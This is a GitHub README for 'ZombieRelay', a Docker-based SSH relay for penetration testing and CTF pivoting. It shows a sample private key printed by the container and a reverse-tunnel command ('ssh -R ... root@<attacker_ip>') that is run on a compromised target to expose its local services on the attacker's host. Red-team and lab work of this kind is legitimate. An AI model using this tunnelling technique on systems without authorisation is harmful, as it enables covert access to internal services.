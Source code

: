 # Zombie Relay

## Usage

```sh
git clone https://github.com/0xyy66/ZombieRelay.git
cd ZombieRelay
docker compose up
```

Everytime you create the container, the compose will automatically create a new private key and print its content, so you can copy-paste it and drop it on the target to connect to the container.

```
...
zombierelay-1  | Use the following private key to access the server
zombierelay-1  | -----BEGIN OPENSSH PRIVATE KEY-----
zombierelay-1  | b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
zombierelay-1  | QyNTUxOQAAACAFqEIsJ1vglEsv4P2PZF2xj6WYlRmWFOJucCCFBAt1hAAAAIhlWMJQZVjC
zombierelay-1  | UAAAAAtzc2gtZWQyNTUxOQAAACAFqEIsJ1vglEsv4P2PZF2xj6WYlRmWFOJucCCFBAt1hA
zombierelay-1  | AAAEAN7V7UYQEnKO7vrOZmGGR7EulGE3Cjco41Jf7xbK9pPQWoQiwnW+CUSy/g/Y9kXbGP
zombierelay-1  | pZiVGZYU4m5wIIUEC3WEAAAAAAECAwQF
zombierelay-1  | -----END OPENSSH PRIVATE KEY-----
...
```

Make sure to remove the container prefix "zombierelay-1 | " from every line.

### Tunnel a remote service on your host

In order to correctly tunnel the remote service on your host, you need to drop the private key printed by docker (id_rsa) and run the following command on the target (assuming the target service that interests you runs locally on port 9090).

```sh
ssh -i id_rsa -p 2224 -R *:9090:127.0.0.1:9090 root@10.10.14.20
```

The command above corresponds to: `ssh -i <private_key> -p <attacker_ssh_port> -R <attacker_iface>:<attacker_service_port>:<target_iface>:<target_service_port> root@<attacker_ip>`

### Config

You may need to edit the docker-compose.yaml file to modify the mapped ports or add more.

By default, the following ports are mapped:
- 2224:22 - OpenSSH exposed on your host on port 2224
- 9090:9090 - You can tunnel a remote application on port 9090, it will become accessible on localhost:9090


